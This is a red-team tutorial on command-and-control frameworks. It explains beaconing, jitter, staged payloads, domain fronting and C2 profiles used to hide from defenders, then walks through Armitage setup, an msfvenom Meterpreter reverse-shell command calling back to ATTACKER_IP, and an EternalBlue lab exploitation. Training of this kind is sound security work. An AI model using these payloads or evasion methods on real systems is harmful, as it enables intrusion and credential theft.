Intro to C2
Intro
Working with C2 frameworks also requires general experience with the Metasploit Framework, and some general familiarity with Red Teaming and exploiting vulnerable virtual machines.
C2 Framework Structure
A C2 Framework is basically a server for reverse shells. A similar comparison would be something like a netcat listener that can handle many reverse shells calling back at once, which in the case of C2 frameworks would be the C2 Agents.

What makes C2 frameworks superior to simple netcat listeners is their ability to perform well in Post-Exploitation operations.
A great example of a C2 framework with its’own payload generator is Metasploit, with its’ MSFVenom service.
Command and Control Structure
C2 Server
The C2 server serves as a hub for agents to call back to the C2 server. Agents will periodically reach out to the C2 server and wait for the operator’s commands.

Agents/Payloads
An agent is a program generated by the C2 framework that calls back to a listener on the C2 server.
This agent offers special functionality in comparison to a normal reverse shell. Most C2 Frameworks implement pseudo-commands to make it an easier job for the C2 operator.
Some examples of this may be a pseudo command to Download or Upload a file onto the system. It’s important to know that agents can be highly configurable, with adjustments on the timing of how often C2 Agents beacon out to a Listener on a C2 Server and much more.
ListenersListeners are basically applications running on the C2 server that wait for a callback over a specific port or protocol. Some examples of this are DNS, HTTP or HTTPS.
Beacons
A beacon is the process of a C2 Agent calling back to the listener running on a C2 server.
Obfuscating Agent Callbacks (Hiding C2 signs)
Sleep Timers
Sleep timers are a predestined pattern formed to control the rate at which beacons are sent to a C2 server. For example, an agent could beacon out every 5 seconds, which would mean it has a sleep timer of 5 seconds, and that would look quite suspicious in logs.
Jitter
To make sleep timers appear a bit less suspicious and add some variety to it, the C2 beaconing can now use jitter and exhibit patterns that more resemble that of the average user.
That means that beaconing now happens at a semi-irregular pattern that makes it more difficult to identify among normal user traffic.
Payload Types
Similar to regular reverse shells, payloads come in two types: Staged and Stageless payloads.
Stageless Payloads
Stageless payloads basically contain the full C2 Agent inside and immediately callback to the C2 server and then begin beaconing.

Here is a more intricate display of how Stageless payloads work:To establish C2 beaconing with a stageless payload, the victim needs to download and execute the Dropper file, and then beaconing to the C2 server can begin.
Staged Payloads
Staged Payloads require a callback to the C2 server to download additional parts of the C2 agent. This is commonly referred to as the “Dropper”, since this file is “Dropped” onto the victim machine in order to then download the second stage of the staged payload.
This method is preferred over stageless payloads because only a small amount of code needs to be written to retrieve the additional parts of the C2 agent from the C2 server.
This also makes it easier to obfuscate code in order to bypass AV solutions.

The steps for establishing C2 beaconing with a staged payload are as follows:1. The victim downloads and executes the Dropper
The Dropper calls back to the C2 Server for Stage 2
The C2 server sends Stage 2 back to the victim machine
Stage 2 is loaded into memory on the victim workstation
C2 Beaconing initializes, and the threat actor can then engage with the victim on the C2 server.
Payload Formats
PE is a file format used for executables, object code, DLLs, FON Font files, and others used in 32-bit and 64-bit versions of Windows operating systems. The PE format is a data structure that encapsulates the information necessary for the Windows OS to manage the wrapped executable code.
But, Windows PE files (Executables) are not the only way to execute code on a system. Some C2 frameworks support payloads in various other formats, for example:
Powershell scripts (which can contain C# Code and be compiled and executed with the Add-Type commandlet)
HTA files
JScript files
VBA/S
Microsoft Office Documents
Modules
Modules are a core component of any C2 framework. They add the ability to make Agents and the C2 server more flexible. Depending on the C2 framework, scripts must be written in different languages.
Cobalt Strike has Agressor Scripts, which are written in the Agressor Scripting Language.
Powershell Empire has support for multiple languages.
Metasploit’s modules are written in Ruby, and many others are written in other languages.
Post Exploitation Modules
Post Exploitation modules are simply modules that deal with anything after the initial point of compromise. This could be something as simple as running SharpHound.ps1 to find paths of lateral movement, or it could be as complex as dumping LSASS and parsing credentials in memory.
Pivoting Modules
A last major component of C2 frameworks are their pivoting modules, which make it easier to access restricted network seegments within the C2 framework. If we have Administrative Access into a system, we can still open a “SMB Beacon”, which can enable a machine to act as a proxy via the SMB protocol.
This can allow machines in a restricted network segment to still communicate with your C2 Server.

The above diagram shows how hosts within a restricted network segment call back to the C2 server:
The Victim calls back to an SMB named pipe on another Victim in a non-restricted network segment.
The Victim in a non-restricted network segment calls back to the C2 server over a standard beacon.
The C2 server then sends commands back to the Victim in the non-restricted network segment.
The Victim in the non-restricted network segment then forwards the C2 instructions to the hosts in the restricted segment
Facing the World
Placing their infrastructure in plain view is a common obstacle for red teamers. A common method to do this is “Domain Fronting”.
Domain Fronting utilizes a known, good host like Cloudflare.
Cloudflre, for example, provides enhanced metrics on HTTP connection details. It also caches HTTP connection requests in order to save bandwidth.
Red Teamers can abuse this to make it appear so that a workstation or server is communicating to a known, trusted IP Address. The geolocation results will show wherever the nearest Cloudflare server is, and the IP will be belonging to Cloudflare too.

In the above diagram, we can see that the C2 operator has a domain that proxies all requests through Cloudflare.
The victim then beacons out to the C2 domain, and Cloudflare proxies this request. Then, it looks at the Host Header and relays the traffic to the correct server. The C2 server then responds to Cloudflare with the C2 commands.
Afterwards, the victim then recieves the command from Cloudflare.
C2 Profiles
There are many names for this technique including:NGINX Reverse Proxy
Apache Mod_Proxy/Mod_Rewrite
Malleable C2 Profiles
Etc.
All proxy features allow a user to control specific elements of an incoming HTTP request.
If an incoming connection request has a header of “X-C2-Server”, then we would explicitly extract that header using one of the above technologies, and ensure that the C2 server responds with C2 based responses. Whereas, if a normal user queried the HTTP server, they might see a generic webpage. This depends on the configuration.

In the diagram above, we can see how C2 profiles work.
Firstly, the victim beacons out to the C2 Server with a custom header in the HTTP Request. Meanwhile, the SOC analyst only gets a normal HTTP Request.
These requests are proxied through Cloudflare. The C2 server receives the request and looks for the custom header, then evaluates how to respond based on the C2 profile.
Finally, the C2 server responds to the client but also responds to the Analyst/Compromised device.
Since HTTPS requests are encrypted, extracting specific headers like X-C2-Server or Host may be impossible. Using C2 profiles helps us hide the C2 server from prying eyes.
Common C2 Frameworks
When it comes to our options regarding C2 Frameworks, there are several Free and Premium ones.
Premium/Paid C2 Frameworks only differ from Free ones due to being made of proprietary code, which would make them harder to understand and build signatures for.
They also usually include more post exploitation modules, pivoting features etc.
Free C2 Frameworks:
- Metasploit
The Metasploit Framework is one of the most popular Exploitation and Post-Exploitation frameworks that is publicly available.
- Armitage
Armitage is just an extension of the Metasploit Framework. It adds a GUI, and it is written in Java. It shares similarities with Cobalt Strike.
Armitage offers an easy way to enumerate and visualize attack targets. A popular feature it has is known as the “Hail Mary” attack. This strategy attempts to run all exploits for the services running on a specific workstation. Armitage is fast and easy for hacking.
- Powershell Empire/Starkiller
PS Empire features agents written in various languages, compatible with multiple platforms. This makes it an incredibly versatile C2.
- Covenant
Covenant is a very unique C2 framework, written in C#. Unlike Metasploit or Armitage, it is primarily used for post-exploitation and lateral movement, with HTTP, HTTPS and SMB listeners with highly customizable agents.
- Sliver
Sliver is an advanced, highly customizable, multi-user, CLI-based C2 framework. Sliver is written in Go, which makes reverse engineering its’ implants incredibly difficult. Sliver supports various protocols for C2 communications like Wireguard, mTLS, HTTP(S), DNS and more.
It also supports BOF (Beacon Object File) files for additional functionality, DNS Canary Domains for masking C2 communications, automatic “Let’s Encrypt” certificate generation for HTTPS beacons, and much more.
Paid Frameworks
- Cobalt Strike
A very popular choice, it is also written in Java similarly to Armitage. It remains a very premium option for red teamers.
- Brute Ratel
Brute Ratel is a C2 framework marketed as a Customizable Command and Control Center (or C4 for short), which provides a true adversary simulation-like experience with being a unique C2 framework.
Setting up a C2 Server
For this part of the guide, the instructions will be referring to the tool Armitage.
As previously mentioned above, Armitage is a GUI for the Metasploit framework. It contains almost all aspects of a standard C2 framework.
Clone the repository from Gitlab at https://gitlab.com/kalilinux/packages/armitage.git
“cd” into Armitage and then build the release using the command “bash package.sh”
Check that Armitage is successfully built with “cd ./release/unix/ && ls - la”
Note: It is important that Java SDK 11 is installed and selected, newer versions dont work
In this folder, two key files will be used:
Teamserver
This is the file that will start the Armitage server that multiple users will be able to connect to. It takes two arguments:
- IP Address
Used by fellow Red Team Operators to connect to your Armitage server
- Shared Password
Used by fellow Red Team Operators to access your Armitage server
Armitage
This is the file used to connect to the Armitage Teamserver. Upon executing the binary, a new prompt opens up, displaying connection information and the username (which is more like a nickname, not used for authentication) and password.

Preparing the Environment
Before we can launch Armitage, we must do a few pre-flight checks to ensure Metasploit is configured properly. Armitage relies heavily on Metasploit's Database functionality, so we must start and initialize the database before launching Armitage. In order to do so, we must execute the following commands:

Lastly, we set the MSF_DATABASE_CONFIG environment variable to the location of the Metasploit database.yml file, which in our case is at /root/.msf4/database.yml

Now we can start the Armitage server.
Starting and Connecting to Armitage
Firstly (as sudo):
msfdb status (to check if msfdb is running)
msfdb init
Start with this command:teamserver
Once your Teamserver is up and running, we can now start the Armitage client. This is used to connect to the Teamserver and displays the GUI to the user.
armitage
While we operate a C2 Framework, it is important to never expose the management interface publicly.
We should always be listening on a local interface, never a public-facing one. This complicates access for fellow operators.
For operators to gain access to the server, we should create a new user account for them and enable SSH access to the server. That way, they’ll be able to SSH port forward TCP/55553.
Armitage explicitly denies users listening on 127.0.0.1 because it is essentially a shared Metasploit server with a “Deconfliction Server” that when multiple users are connecting to the server, you’re not seeing everything that other users are seeing.
With Armitage, we must listen on the tun0/eth0 IP Address.

After that, we just set a nickname, it can be anything.
C2 Operation Basics
Accessing and Managing your C2 Infrastructure
Now that we have a general idea of how to set up the C2 server, there are some actions that are recommended to take but not exactly necessary.
Basic Operational Security
A C2 management interface should NEVER be directly accessible. The main reason for this is improving OPSEC.Fingerprinting C2 servers can be quite easy. For example, in versions prior to 3.13, Cobalt Strike C2 servers could be identified by an extra space (\x20) at the end of the HTTP Response.
Using this tactic, Blue Teamers could fingerprint all publicly accessible Cobalt Strike C2 servers.

Accessing your Remote C2 server that is listening locally
This section will be focusing on how to securely access a C2 server by SSH port-forwarding.
SSH Port Forwarding allows us to either host resources on a remote machine by forwarding a local port to the remote server, or it allows us to access local resources on the remote machine we’re connecting to.
In some circumstances, this may be for circumventing Firewalls.
Or, in our case, for OPSEC reasons.
For a better understanding of why we can find SSH Port Forwarding useful, let’s see how we can do it.
In the C2 we setup before, the Teamserver is listening on localhost on TCP/55553.
In order to access Remote port 55553, we must setup a Local port-forward to forward our local port to the remote Teamserver server. This is done with the -L flag on our SSH client. (stands for Local)
root@kali$ ssh -L 55553:127.0.0.1:55553 root@
root@kali$ echo "Connected"
Connected
Now that we have an SSH remote port forwarding set up, we can now connect to the C2 server running on TCP/55553.
Armitage does not support listening on a loopback interface (127.0.0.1-127.255.255.255), so this is just general C2 server admin advice.
It is highly recommended that we put firewall rules in place for C2 servers that must run on a public interface, so that only intended users can access the C2 server.
There’s various ways to do this. If we’re hosting Cloud infrastructure, we can set up a Security group or use a host-based firewall solution like UFW or IPTables.
Creating a listener in Armitage
Every C2 server has a listener creation feature.
Let’s create a basic Meterpreter Listener running on TCP/31337.
To start, we click the Armitage dropdown menu, and go to the Listeners section.
There are three options here: Bind, Reverse and LHOST.
Bind refers to Bind Shells; you must connect to these hosts. Reverse refers to standard Reverse Shells; this is the option we will be using.

After clicking "Reverse," a new menu will open up, prompting you to configure some basic details about the listener, specifically what port you want to listen on and what listener type you would like to select. There are two options you can choose from, "Shell" or "Meterpreter". Shell refers to a standard netcat-style reverse shell, and Meterpreter is the standard Meterpreter reverse shell.

After pressing enter, a new pane will open up, confirming that your listener has been created. This should look like the standard Metasploit exploit/multi/handler module.

After setting up a listener, you can generate a standard windows/meterpreter/reverse_tcp reverse shell using MSFvenom and set the LHOST to the Armitage server to receive callbacks to our Armitage server.
Getting a callback
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe
After generating the windows/meterpreter/reverse_tcp using MSFVenom, we can transfer the payload to a target machine and execute it. After a moment or two, you should receive a callback from the machine.

Listener Type
Standard reverse shell listeners are not the only ones that exist. There are many types of listeners, which use different protocols. However, there are a few common ones to cover, like:
Standard Listeners
These communicate directly over a raw TCp or UDP socket, sending commands in cleartext. Metasploit has full support for generic listeners.
HTTP/HTTPS Listeners
These often appear as web servers and use techniques like Domain Fronting or Malleable C2 profiles to mask a C2 server. When communicating over HTTPS, it’s less likely for communications to be blocked by NGFW.Metasploit has full support for HTTP/HTTPS listeners.
DNS Listener
DNS listeners are a popular technique used in the exfil stage where additional infrastructure is normally required to be set up. Or, at the very least, a domain name must be purchased and registered, and a public NS server must be configured.
It is possible to set up DNS C2 operations in Metasploit with the help of additional tools. These are often very useful for bypassing Network Proxies. Here is a good article: "Meterpreter over DNS"
SMB Listener
Communicating via SMB named pipes is a popular method of choice, especially when dealing with a restricted network; it often enables more flexible pivoting with multiple devices talking to each other and only one device reaching back out over a more common protocol like HTTP/HTTPS. Metasploit has support for Named Pipes.
Command, Control and Conquer
Host Enumeration with Armitage
Here we are going to exploit a sample VM. First, we execute a port scan within Armitage by going to the “Hosts” section, hovering over “Nmap Scan”and selecting “Quick Scan”.

After selecting "Quick scan", a new option will pop up; this will prompt you to enter the IP Address range you would like to scan. You should enter the IP Address of the deployed Virtual machine in this box.
After pressing "Ok", and waiting a moment or two, you should see a new tab open up called "nmap" and a new machine display in the "Workspace" window. In the "nmap" tab, you will see the raw scan results.

Exploitation with Armitage
Next up, we're going to show off exploitation with Armitage; our victim in our example is a Windows 7 machine (more specifically, Blue). This machine is vulnerable to the classic exploit "Eternal Blue". To find this, we will focus on the far right tab with folders, we will expand the "Exploit" dropdown, then find the "Windows" dropdown, then the "SMB" dropdown, then you will see all of the exploits.

Next up, you can double click your exploit of choice, or drag and drop the exploit onto the host, and a new window will open up. Clicking "launch" will fire off the exploit.
